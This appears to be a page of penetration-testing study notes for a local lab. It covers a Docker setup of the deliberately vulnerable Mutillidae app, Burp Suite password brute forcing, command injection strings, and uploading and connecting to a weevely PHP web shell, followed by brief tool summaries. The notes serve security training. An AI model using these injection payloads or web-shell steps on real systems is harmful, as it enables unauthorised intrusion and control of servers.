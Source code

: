 * ```bash
  git clone [https://github.com/webpwnized/mutillidae-dockerhub.git](https://github.com/webpwnized/mutillidae-dockerhub.git)
  ```

* ```bash
  cd mutillidae-dockerhub
  ```

* ```bash
  sudo docker-compose up
  ```

* BROWSER: `127.0.0.1`
  * Mutillidae Walk Through (<https://youtu.be/zneRNme9h3U>)

## Burpsuite GUI

* Web Application Testing

### Brute Force Example

* Proxy > Intercept > Turn Intercept On > Open in Browser > 127.0.0.1 (docker IP address that is assigned)
* Enter Fake Credentials > Right-click output and send to intruder (CTRL+I)
* Highlight Password > Add > Payloads > Load Dictionary > Run
  * Look for any behavior that may indicate a valid password. For example, look for any anomalous error messages, response times, or status codes. (e.g., of the requests has received a 302 response)

### Command Injection Example

* `; id && pwd && whoami && uname`
* `; ip a | grep inet`

### File Upload for Shell Example

* ```bash
  weevely generate <password/> <file.php>
  ```

* Upload your file

* ```bash
  weevely http://127.0.0.1/hackable/uploads/fake.php <password>
  ```

* Generation of Reverse Shells
* PHP PenTestMonkey

## OWASP Zed Attack Web Proxy (ZAP)

* Open-source penetration testing tool, designed for testing web-applications, known as a "man-in-the-middle proxy"
* READ-ONLY and provides potential links/sites of interest!

* Basic Drill Down
  * Quick Start > Automated Scan > URL to Attack (Vuln URL) > Use Traditional Spider > Use Ajax Spider w/ (Browser of Your Choice)

## Arachni

* Used to assist penetration testers and admins evaluate security of web applications
* Can be used to take into account dynamic web applications, can detect changes caused
* Graphic display and color coding of potential vulnerabilities

* ```bash
  ```